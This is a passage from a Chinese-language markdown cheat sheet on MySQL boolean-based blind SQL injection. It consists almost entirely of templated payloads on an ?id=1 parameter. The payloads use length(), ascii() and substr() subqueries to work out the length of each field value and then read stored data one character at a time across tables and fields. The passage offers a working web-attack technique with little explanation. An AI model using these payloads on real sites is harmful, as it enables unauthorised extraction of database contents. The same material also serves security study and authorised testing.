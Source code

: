          ```mysql
         第二个数据长度 : 
         	?id=1 and (select length(第一个字段) from 第二个表 limit 1,1) = 长度
         ```

      2. 第二个字段

         ```mysql
         第一个数据长度 : 
         	?id=1 and (select length(第二个字段) from 第二个表 limit 0,1) = 长度
         ```

         ```mysql
         第二个数据长度 : 
         	?id=1 and (select length(第二个字段) from 第二个表 limit 1,1) = 长度
         ```

3. 数据

   1. 第一个表

      1. 第一个字段

         ```mysql
         第一个数据 : 
         	?id=1 and ascii(substr((select 第一个字段 from 第一个表 limit 0,1),1,1)) = ascii的字符数字
         	?id=1 and ascii(substr((select 第一个字段 from 第一个表 limit 0,1),2,1)) = ascii的字符数字
         ```

         ```mysql
         第二个数据 : 
         	?id=1 and ascii(substr((select 第一个字段 from 第一个表 limit 1,1),1,1)) = ascii的字符数字
         	?id=1 and ascii(substr((select 第一个字段 from 第一个表 limit 1,1),2,1)) = ascii的字符数字
         ```

      2. 第二个字段

         ```mysql
         第一个数据 : 
         	?id=1 and ascii(substr((select 第二个字段 from 第一个表 limit 0,1),1,1)) = ascii的字符数字
         	?id=1 and ascii(substr((select 第二个字段 from 第一个表 limit 0,1),2,1)) = ascii的字符数字
         ```

         ```mysql
         第二个数据 : 
         	?id=1 and ascii(substr((select 第二个字段 from 第一个表 limit 1,1),1,1)) = ascii的字符数字
         	?id=1 and ascii(substr((select 第二个字段 from 第一个表 limit 1,1),2,1)) = ascii的字符数字
         ```

         

   2. 第二个表

      1. 第一个字段

         ```mysql
         第一个数据 : 
             ?id=1 and ascii(substr((select 第一个字段 from 第二个表 limit 0,1),1,1)) = ascii的字符数字
         	?id=1 and ascii(substr((select 第一个字段 from 第二个表 limit 0,1),2,1)) = ascii的字符数字
         ```
